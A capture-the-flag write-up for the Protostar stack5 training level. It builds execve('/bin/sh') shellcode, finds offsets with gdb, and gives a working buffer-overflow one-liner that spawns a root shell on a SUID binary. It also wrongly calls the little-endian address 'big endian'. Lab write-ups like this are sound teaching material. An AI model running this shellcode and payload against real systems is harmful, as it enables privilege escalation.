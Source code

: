 # Stack Five

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

**Hints**

- At this point in time, it might be easier to use someone elses shellcode
- If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
- remove the int3s once your shellcode is done.

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Writeup

In this code we have only the buffer of 64 elements.

No function needed to call.

We can use a **shellcode** to get a shell as a **root**, because the binary have SUID:

```bash
$ ls -lah /opt/protostar/bin/stack5
-rwsr-xr-x 1 root root 23K Nov 24  2011 /opt/protostar/bin/stack5
```

To create a **shellcode** we need to write some **assembly code** that call **execve("/bin/sh")** and after that call an **exit(0)**.

The function **execve()** need three parameters:
- **path** of the program to execute
- a pointer to the array **argv[]**
- a pointer to the array **envp[]**

In assembly need to write in the regiters:
- **eax**: system call identifier (in this case is **11**)
- **ebx**: first argument (in this case the **path**)
- **ecx**: second argument (in this case the pointer to **argv[]**)
- **edx**: third argument (in this case the pointer to **envp[]**)

In **eax** the function will write the return value.

**N.B.**: a **NULL** pointer for **argv** and **envp** means that will use the array of the father

The assembly code will be:

```s
xor %eax, %eax          ; set EAX to zero  
push %eax               ; push it into the stack, is the zero terminated of the string
push $0x68732f2f        ; push into the stack the string //sh
push $0x6e69622f        ; push into the stack the string /bin
mov %esp, %ebx          ; set the first argument to the current position of the stack (to the string /bin//sh\0)
mov %eax, %ecx          ; set the second argument to NULL
mov %eax, %edx          ; set the third argument to NULL
mov $0xb, %al           ; set eax with the system call identifier of the execve() function (to 11) (use %al to not introduce zeros and to make the shellcode smaller)
int $0x80               ; call the system call with int 128
xor %eax, %eax          ; set EAX to zero
inc %eax                ; set EAX to one (more efficent than mov 1, %al) (need to be 1 for the system call exit())
int $0x80               ; call the system call with int 128
```

Save this code (without comments) into **shellcode.s** and after that we can compile it:

```bash
gcc -Wall -m 32 -c shellcode.s
```

Now we have **shellcode.o**, we can use **objdump** to get **opcodes**:

```bash
objdump -d shellcode.o
```

The output will be:

```
shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	89 c1                	mov    %eax,%ecx
  11:	89 c2                	mov    %eax,%edx
  13:	b0 0b                	mov    $0xb,%al
  15:	cd 80                	int    $0x80
  17:	31 c0                	xor    %eax,%eax
  19:	40                   	inc    %eax
  1a:	cd 80                	int    $0x80
```

And the opcode are:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

Now we have the **shellcode**.

Need to understand how to inject it.

We need to find how much of **words** there are between the **buffer** and the **EIP**. We can find it with **gdb**:

```bash
gdb /opt/protostar/bin/stack5
```

Insert this commands to remove **LINES** and **COLUMNS** environment variables from the debugger to make the **envp[]** array equal to a normal **/bin/sh** env:

```
unset env LINES
unset env COLUMNS
```

Use the **start** command:

```
start
```

To make first instruction of the binary including calling the first instruction of **main**.

Now the **return address** is written in the stack and we can find it using the register **EBP** and add a single word. (ebp + 1):

```
p $ebp+4
```

With this output:

```
(gdb) p $ebp+4
$1 = (void *) 0xbffffcdc
```

To find the address of the **buffer** we can set a breakpoint in te instruction before calling the **gets**.

To find the address of the code which make the breakpoint we can disassembly the main function, as this:

```
disass main
```

With this output:

```
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   %ebp
0x080483c5 <main+1>:	mov    %esp,%ebp
0x080483c7 <main+3>:	and    $0xfffffff0,%esp
0x080483ca <main+6>:	sub    $0x50,%esp
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
```

Now set the breakpoint:

```
b *0x080483d4
```

And send the **continue** command (alias **c**):

```
c
```

The address of buffer is now stored in **EAX** register, we can find it with the command:

```
info registers
```

With this output:

```
(gdb) info registers
eax            0xbffffc90	-1073742704
ecx            0xa426d6b5	-1540958539
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffc80	0xbffffc80
ebp            0xbffffcd8	0xbffffcd8
esi            0x0	0
edi            0x0	0
eip            0x80483d4	0x80483d4 <main+16>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

We are now able to discover the number of word between the **buffer** and the **EIP**:

```
0xbffffcdc - 0xbffffc90 = 4C = 76
```

The buffer size is 64, we can subtract 64:

```
76 - 64 = 12 / 4 = 3 word
```

Need to write 3 word of junk.

Our shellcode is 28 char length, need to add 36 junk chars, the 3 work of junk and finally the address of the buffer (that is **0xbffffc90**).

Write the addres in **big endian**:

```
\x90\xfc\xff\xbf
```

The exploit will be:

```bash
python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 36 + 'bbbb' * 3 + '\x90\xfc\xff\xbf')" | /opt/protostar/bin/stack5
```

The exploit work but the **stdin** is saturated and the shell will be closed.

Need to mantain open the stdin, we can use the command **cat** as a command filter:

```bash
(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 36 + 'bbbb' * 3 + '\x90\xfc\xff\xbf')"; cat) | /opt/protostar/bin/stack5
```

Now we are effective root:

```bash
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```